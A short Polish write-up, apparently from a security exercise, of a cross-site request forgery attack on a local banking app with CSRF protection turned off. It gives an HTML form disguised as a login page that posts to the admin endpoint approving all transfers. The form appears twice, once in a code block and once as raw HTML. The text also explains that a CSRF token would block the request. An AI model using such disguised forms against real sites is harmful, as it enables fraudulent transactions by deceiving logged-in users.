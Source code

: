 # XSRF(Cross Site Request Forgery) wykorzystujący wyłączone zabezpieczenie CSRF w serwerze.

## Scenariusz użycia:
Administrator może zatwierdzić wszystkie przelewy wchodząc na stronę `http://localhost:8000/bank/admin/confirm_all/`. Jeśli jest on zalogowany na konto administratora, wystarczy, aby podłożyć mu link do tej strony, na przykład jako `action` w formularzu na innej stronie.

## Przykład:

1. Formularz takiej postaci, ktory wydaje sie byc formularzem logowania, tak na prawde wysle post pod adres zatwierdzajacy przelewy. Serwer bedzie myslal, ze jest to poprawne zapytanie, wystosowane do niego.
```
<h1>The other site</h1>
<p>Hello, please log in</p>
<form class="" action="http://localhost:8000/bank/admin/confirm_all/" method="post">
    User: <input type="text" name="user" value="" required></input>
    Password: <input type="text" name="user" value="" required></input>
    <input type="submit" value="login"></input>
</form>
```

Gdyby zastosowano zabezpieczenie przed CSRF, ta inna witryna nie wiedziałaby jaki jest jednorazowy token, ktorego serwer spodziewa sie wraz z danymi z metody post i prosba zostanie odrzucona.

<h1>The other site</h1>
<p>Hello, please log in</p>
<form class="" action="http://localhost:8000/bank/admin/confirm_all/" method="post">
    User: <input type="text" name="user" value="" required></input>
    Password: <input type="text" name="user" value="" required></input>
    <input type="submit" value="login"></input>
</form>

